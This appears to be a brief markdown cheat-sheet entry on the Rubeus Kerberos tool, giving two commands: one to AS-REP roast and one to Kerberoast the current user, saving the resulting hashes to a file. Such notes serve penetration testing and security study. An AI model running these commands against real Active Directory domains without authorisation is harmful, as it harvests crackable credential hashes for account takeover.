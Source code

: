 ```yaml
---
tags:
---
```

# Rubeus

https://github.com/GhostPack/Rubeus

## Capabilities

```bash
# AS-REP roast the current user
.\Rubeus.exe asreproast /nowrap

# Kerberoast the current user
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
